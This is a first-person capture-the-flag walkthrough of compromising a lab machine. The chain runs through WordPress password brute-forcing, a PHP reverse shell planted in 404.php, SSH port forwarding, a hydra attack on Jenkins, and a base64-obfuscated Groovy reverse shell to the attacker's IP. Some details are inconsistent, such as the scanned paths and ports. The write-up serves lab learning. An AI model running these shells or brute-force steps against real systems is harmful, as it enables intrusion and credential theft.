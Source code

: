 i start with an nmap (a simple host discovery and port scanning tool)
	
	nmap 10.10.205.70
outpup:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http

i then visit the website on port 80 and i start a gobuster in the background:
	
	gobuster dir -u http://10.10.205.70/ -w ~/Pentest/SecLists/Discovery/Web-Content/big.txt -x php,html,txt,js,pdf -t 20
output:
	
	/index.html           (Status: 200) [Size: 10918]
	/javascript           (Status: 301) [Size: 317] [--> http://10.10.205.70/javascript/]
	/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.205.70/phpmyadmin/]
	/server-status        (Status: 403) [Size: 277]
	/wordpress            (Status: 301) [Size: 316] [--> http://10.10.205.70/wordpress/]
so i visit the url and (also from the name of the folder)
i understand that is a site hosted with wordpress.
The first thing i check is the wordpress version:
	
	WordPress version 5.4.2
so i start a wordpress scan with WPScan:
	
	wpscan -e --url http://10.10.205.70/blog/
and i find out that the username is admin
so i search an exploit for this version;
WPScan gives me advice for an exploit:
	
	https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
There is a module on msfconsole that let me exploit this
vulnerability

so i set every request nedeed and start the exploit;
eventually i got the password:
	
	admin:[REDACTED]
so i log inside the wp-login page and upload a revshell
i set up a listener on port 4444 on my local machine:
	
	python3 -m pwncat
	connect -lp 4444
then i modified the 404.php file on wordpress to upload the revshell:
	
	<?php
	exec("/bin/bash -c 'bash -i > /dev/tcp/10.8.79.118/4444 0>&1'");

so now we have access as www-data on the first container;
Now we need to pivot to the next host:
so i upload linpeas on the machine for the enumeration:
	
	Ctrl + d 
	Upload Pentest/linpeas.sh /tmp/linpeas.sh

But it finds nothing, so i keep enumerating manully;
I found something strange in the /opt directory:
	
	aubreanna:[REDACTED]

So now we can log as the aubreanna user;
In her /home directory i found a jenkins.txt file
and there is written on it that is a jenkins service running on port 8080 on the localhost
So we need to port forward the service to our machine:
On our localmachine i entered this command:
	
	ssh -L 9000:127.0.0.1:8080 aubreanna@10.10.205.70

The port 9000 on our localhost is binded on the 8080 on the remote machine
I visited the http://127.0.0.1:9000/
is a jenkins login page.
I tried a brute force on the admin user after tryng a bunch of common creds:
	
	hydra 127.0.0.1 -s 5555 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt

i found the creds:
	
	admin:[REDACTED]

We are inside jenkins page.
We now need to place a revshell on the script console on admin page:
	
	def sout = new StringBuffer(), serr = new StringBuffer()
	def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44Ljc5LjExOC83Nzc3IDA+JjEn}|{base64,-d}|{bash,-i}'.execute()
	proc.consumeProcessOutput(sout, serr)
	proc.waitForOrKill(1000)
	println "out> $sout err> $serr"

I set up another listener on my machine:
	
	python3 -m pwncat
	connect -lp 7777

We are now inside jenkins container;
i tried priv-esc via linpeas.sh:
	
	Ctrl-d
	upload Pentest/linpeas.sh /tmp/linpeas.sh

i run linpeas but also this time it doesnt find anything,
so i checked once again in /opt folder and i had luck:
	
	root:[REDACTED]

I then come back to the main machine and log in as root
and GOT THE LAST FLAG


